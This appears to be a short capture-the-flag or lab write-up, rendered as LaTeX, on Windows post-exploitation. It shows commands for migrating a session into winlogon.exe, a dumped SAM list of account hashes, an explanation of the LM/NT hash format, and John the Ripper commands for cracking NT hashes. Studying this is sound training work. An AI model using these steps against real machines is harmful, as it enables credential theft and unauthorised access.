 \documentclass{article}
\begin{document}
\begin{lstlisting}
$ getpid
$ ps
$ migrate -N winlogon.exe
\end{lstlisting}

We can find the following credentials: \\
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: \\
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: \\
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: \\

Windows stores still data under C:/windows/system32/config/SAM
\section{Password cracking}
After a bit of research, we can find Windows stores the passwords in the format User Name : RID: LM-HASH value : NT-HASH. You can see, the LM hash is the same for all three accounts. The string “aad3b435b51404eeaad3b435b51404ee” is the LM hash for ‘no password’. Maybe, the password is too long for LM or maybe this weak hashing scheme was disabled. Anyway we 'll have to look at the NT hash. We could for instance use Joh the Ripper.

\begin{lstlisting}
$john --format=NT passwords.txt
$john --format=NT passwords.txt --show
\end{lstlisting}
\end{document}
